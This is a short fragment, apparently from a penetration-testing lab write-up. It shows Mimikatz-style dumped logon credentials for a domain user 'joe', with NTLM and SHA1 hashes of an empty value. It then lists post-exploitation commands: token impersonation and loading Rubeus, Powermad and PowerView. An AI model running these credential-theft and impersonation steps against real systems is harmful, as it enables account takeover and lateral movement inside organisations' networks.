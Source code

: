 ```powershell
Logon Time        : 1/10/2024 10:00:37 AM
SID               : S-1-5-21-1416445593-394318334-2645530166-1604
	msv :	
	 [00000003] Primary
	 * Username : joe
	 * Domain   : DEV
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
	 [00010000] CredentialKeys
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
	tspkg :	
	wdigest :	
	 * Username : joe
	 * Domain   : DEV
	 * Password : (null)
	kerberos :	
	 * Username : joe
	 * Domain   : DEV.ADMIN.OFFSHORE.COM
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 22581345 (00000000:01589061)
Session           : RemoteInteractive from 2
User Name         : joe
Domain            : DEV
Logon Server      : DC02
Logon Time        : 1/10/2024 10:00:37 AM
SID               : S-1-5-21-1416445593-394318334-2645530166-1604
	msv :	
	 [00000003] Primary
	 * Username : joe
	 * Domain   : DEV
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
	 [00010000] CredentialKeys
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
	tspkg :	
	wdigest :	
	 * Username : joe
	 * Domain   : DEV
	 * Password : (null)
	kerberos :	
	 * Username : joe
	 * Domain   : DEV.ADMIN.OFFSHORE.COM
	 * Password : (null)
	ssp :	
	credman :	
```
```powershell
impersonate_token dev\\joe

upload rubeus
load powermad
load powerview
```